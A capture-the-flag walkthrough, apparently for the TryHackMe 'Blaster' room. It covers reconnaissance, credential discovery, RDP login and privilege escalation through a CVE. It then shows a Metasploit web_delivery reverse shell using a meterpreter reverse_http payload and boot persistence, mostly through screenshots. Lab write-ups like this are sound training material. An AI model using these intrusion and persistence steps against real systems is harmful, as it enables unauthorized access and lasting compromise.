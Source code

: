 # RESOLUCIÓN DE LA MÁQUINA BLASTER

## TASK 1 - MISSION START

![image](https://github.com/user-attachments/assets/0bb6ce38-1c8b-47d8-af5b-a1792c5bbefd)

## TASK 2 - ACTIVATE FORWARD SCANNERS AND LAUNCH PROTON TORPEDOES 

How many ports are open on our target system?

![image](https://github.com/user-attachments/assets/30725067-8359-4431-b276-7f797d3b9c6e)

![image](https://github.com/user-attachments/assets/b1540a93-0171-4ed5-ba68-d9e8de232a66)

Looks like there's a web server running, what is the title of the page we discover when browsing to it?

![image](https://github.com/user-attachments/assets/d4907b7c-f52d-46c3-ab60-db57037034c5)

![image](https://github.com/user-attachments/assets/1cc3da5c-a728-46b4-aa42-3db38880c24e)

Interesting, let's see if there's anything else on this web server by fuzzing it. What hidden directory do we discover?

![image](https://github.com/user-attachments/assets/bd6a19de-bd2c-4e7c-8fb3-d97268d091ff)

![image](https://github.com/user-attachments/assets/2eb52fbc-1712-4f10-a058-8efb221a1dcb)

Navigate to our discovered hidden directory, what potential username do we discover?

![image](https://github.com/user-attachments/assets/9669d2ea-eebd-4e9b-8482-d847e7593cac)

![image](https://github.com/user-attachments/assets/fd658a48-8e95-4428-9f95-3cdde32985c5)

Crawling through the posts, it seems like our user has had some difficulties logging in recently. What possible password do we discover?

![image](https://github.com/user-attachments/assets/76f65ab4-f766-4c6e-8ce8-049f819f72d9)

![image](https://github.com/user-attachments/assets/d9203ac2-0c2b-4e6a-bc79-e16856396ccb)

Log into the machine via Microsoft Remote Desktop (MSRDP) and read user.txt. What are it's contents?

![image](https://github.com/user-attachments/assets/286f2d4c-9799-4875-ad6a-2509e147462e)

![image](https://github.com/user-attachments/assets/e085a3d3-e4e0-4840-8558-5fc3e37056c3)

![image](https://github.com/user-attachments/assets/3d7ea991-3a43-4335-a6f2-67f1b0a9b569)

## TASK 3 - BREACHING THE CONTROL ROOM 

When enumerating a machine, it's often useful to look at what the user was last doing. Look around the machine and see if you can find the CVE which was researched on this server. What CVE was it?

![image](https://github.com/user-attachments/assets/19ee9b73-fb9d-474f-a59e-05479d419b6c)

![image](https://github.com/user-attachments/assets/277ccb14-d0f1-4fe9-ab9a-2909c107eada)

Looks like an executable file is necessary for exploitation of this vulnerability and the user didn't really clean up very well after testing it. What is the name of this executable?

![image](https://github.com/user-attachments/assets/5a01c7de-73f2-49e4-a1e8-897ffd4963f0)

![image](https://github.com/user-attachments/assets/91f8f055-5cea-4efe-b27b-a3e06f911252)

Ctrl + s and i show that: 

![image](https://github.com/user-attachments/assets/7ca00f8c-e18c-47d3-b061-386d31345202)

Now that we've spawned a terminal, let's go ahead and run the command 'whoami'. What is the output of running this?

![image](https://github.com/user-attachments/assets/8f9985e7-882b-42be-b9bd-e8171e9813a2)

![image](https://github.com/user-attachments/assets/c6597034-68e5-40f3-84ba-781e17c8af33)

Now that we've confirmed that we have an elevated prompt, read the contents of root.txt on the Administrator's desktop. What are the contents? Keep your terminal up after exploitation so we can use it in task four!

![image](https://github.com/user-attachments/assets/9bca1a9a-6944-450a-8725-4cb3de0e411d)

![image](https://github.com/user-attachments/assets/3b338a95-dcc0-4a90-9f07-62a881661c7f)

## TASK 4 - ADOPTION INTO THE COLLECTIVE

Return to your attacker machine for this next bit. Since we know our victim machine is running Windows Defender, let's go ahead and try a different method of payload delivery! For this, we'll be using the script web delivery exploit within Metasploit. Launch Metasploit now and select 'exploit/multi/script/web_delivery' for use.

![image](https://github.com/user-attachments/assets/084e21fe-9396-470c-90ba-19abd0925274)

![image](https://github.com/user-attachments/assets/17ce9094-daf1-4a13-aa3f-2e9f736b114e)

First, let's set the target to PSH (PowerShell). Which target number is PSH?

![image](https://github.com/user-attachments/assets/33b26900-b40e-4d44-a14c-f98a39d29b93)

![image](https://github.com/user-attachments/assets/6652cc8d-b0b3-409d-b773-ec78d56246e7)

After setting your payload, set your lhost and lport accordingly such that you know which port the MSF web server is going to run on and that it'll be running on the TryHackMe network.

![image](https://github.com/user-attachments/assets/e8422ae7-4dfc-41ca-bf8e-184219b9c095)

Finally, let's set our payload. In this case, we'll be using a simple reverse HTTP payload. Do this now with the command: 'set payload windows/meterpreter/reverse_http'. Following this, launch the attack as a job with the command 'run -j'.

![image](https://github.com/user-attachments/assets/b075312b-e6fe-405e-add8-bf7140a7b99c)

Return to the terminal we spawned with our exploit. In this terminal, paste the command output by Metasploit after the job was launched. In this case, I've found it particularly helpful to host a simple python web server (python3 -m http.server) and host the command in a text file as copy and paste between the machines won't always work. Once you've run this command, return to our attacker machine and note that our reverse shell has spawned. 

![image](https://github.com/user-attachments/assets/0905f04e-bd6f-4a5f-ba2e-fc386aa34904)

Last but certainly not least, let's look at persistence mechanisms via Metasploit. What command can we run in our meterpreter console to setup persistence which automatically starts when the system boots? Don't include anything beyond the base command and the option for boot startup. 

![image](https://github.com/user-attachments/assets/7fdaa8b0-b965-496a-a9cc-895605c46d3d)

![image](https://github.com/user-attachments/assets/1882e559-ccf1-498a-9205-92a7caaa5c16)






